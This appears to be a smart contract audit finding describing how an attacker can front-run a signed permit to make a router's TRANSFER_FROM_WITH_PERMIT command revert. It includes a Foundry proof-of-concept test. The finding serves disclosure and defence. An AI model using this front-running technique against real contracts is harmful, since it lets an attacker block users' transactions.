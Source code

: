 **Likelihood:** Medium, given that the exploit requires specific conditions to be met, such as observing and front-running transactions in the mempool.

## Description

The `TRANSFER_FROM_WITH_PERMIT` command is intended to allow off-chain signed approvals to be used on-chain, saving gas and improving user experience.

However, including this command in a call to `execute()` will make the transaction susceptible to DOS via frontrunning. An attacker can observe the transaction in the mempool, extract the permit signature and values from the calldata and execute the permit before the original transaction is processed. This would consume the nonce associated with the user's permit and cause the original transaction to fail due to the now-invalid nonce.

This attack vector has been previously described in [Permission Denied - The Story of an EIP that Sinned](https://www.trust-security.xyz/post/permission-denied) .

The following test demonstrates how the `attacker=address(1337)` front-runs the `owner` transaction and calls `permit`, resulting in the command execution being reverted:

```solidity
    // File: test/Router/RouterTest.t.sol:ContractRouterTest
    function testPermitFrontRun() public {
        uint256 amount = 10e18;
        uint256 privateKey = 0xABCD;
        address owner = vm.addr(privateKey);
        underlying.mint(owner, amount);
        //
        // 1. Owner signs to router
        vm.startPrank(owner);
        underlying.approve(address(principalToken), amount);
        uint256 shares = principalToken.deposit(amount, owner);

        bytes32 PERMIT_TYPEHASH = keccak256(
            "Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)"
        );
        uint256 deadline = block.timestamp + 10000;
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            privateKey,
            keccak256(
                abi.encodePacked(
                    "\x19\x01",
                    principalToken.DOMAIN_SEPARATOR(),
                    keccak256(
                        abi.encode(PERMIT_TYPEHASH, owner, address(router), shares, 0, deadline)
                    )
                )
            )
        );
        vm.stopPrank();
        //
        // 2. Attacker frontrun the caller, the nounce is incremented.
        vm.prank(address(1337));
        principalToken.permit(owner, address(router), shares, deadline, v, r, s);
        //
        // 3. Router executes the permit and it will be reverted
        vm.startPrank(owner);
        bytes memory commands = abi.encodePacked(bytes1(uint8(Commands.TRANSFER_FROM_WITH_PERMIT)));
        bytes[] memory inputs = new bytes[](1);
        inputs[0] = abi.encode(address(principalToken), shares, deadline, v, r, s);
        vm.expectRevert();
        router.execute(commands, inputs);
        vm.stopPrank();
    }
```